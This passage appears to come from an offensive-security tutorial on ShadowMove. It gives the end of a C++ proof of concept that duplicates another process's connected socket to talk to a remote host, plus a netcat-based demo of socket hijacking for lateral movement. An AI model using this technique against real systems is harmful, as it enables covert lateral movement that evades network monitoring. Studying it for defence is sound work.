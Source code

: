 ```cpp
			free(objectNameInfo);

		}
	}

	return 0;
}


int main(int argc, char** argv) {
	WORD wVersionRequested;
	WSADATA wsaData;
	DWORD dwProcessId;
	LPSTR dstIP = NULL;
	SOCKET targetSocket;
	char buff[255] = { 0 };

	printf("\t\t\t-=[ ShadowMove Gateway PoC ]=-\n\n");

	// smgateway.exe [PID] [IP dst]
	/* It's just a PoC, we do not validate the args. But at least check if number of args is right X) */
	if (argc != 3) {
		printf("[!] Error: syntax is %s [PID] [IP dst]\n", argv[0]);
		exit(-1);
	}
	dwProcessId = strtoul(argv[1], NULL, 10);
	dstIP = (LPSTR)malloc(strlen(argv[2]) * (char)+1);
	memcpy(dstIP, argv[2], strlen(dstIP));


	// Classic
	wVersionRequested = MAKEWORD(2, 2);
	WSAStartup(wVersionRequested, &wsaData);

	targetSocket = findTargetSocket(dwProcessId, dstIP);
	send(targetSocket, "hello from shadowmove and reused socket!\n", strlen("hello from shadowmove and reused socket!\n"), 0);
	recv(targetSocket, buff, 255, 0);
	printf("\n[*] Message from target to shadowmove:\n\n %s\n", buff);
	return 0;
}
```

## Demo

Once we have compiled the above code, we can test the technique as it was described earlier in our [diagram](shadowmove-lateral-movement-by-stealing-duplicating-existing-connected-sockets.md#overview). Below highlighted are key aspects of the demo:

* In the top right corner, there's a target system `192.168.56.102` with `nc` listening on port `80`.
* In the top left corner, there's a compromised (source) system and `nc.exe` establishing a connection to target host `192.168.56.102:80`.
* In the bottom left corner, there's `ShadowMove.exe` running on the source system, which enumerates handles of the `nc.exe` running on the source system, finds a socket that is connected to `192.168.56.102:80` (target system), duplicates it and writes `hello from shadowmove and reused socket!` to it, which is then received on the target system (top right).&#x20;
* Target system (top right) writes back to the same socket `hello from target to shadowmove`, which is received by `shadowmove.exe` on the source system (bottom left).
* In the bottom right, we see a `ProcessHacker` that shows that at no point in time `shadowmove.exe` establishes no TCP connections.
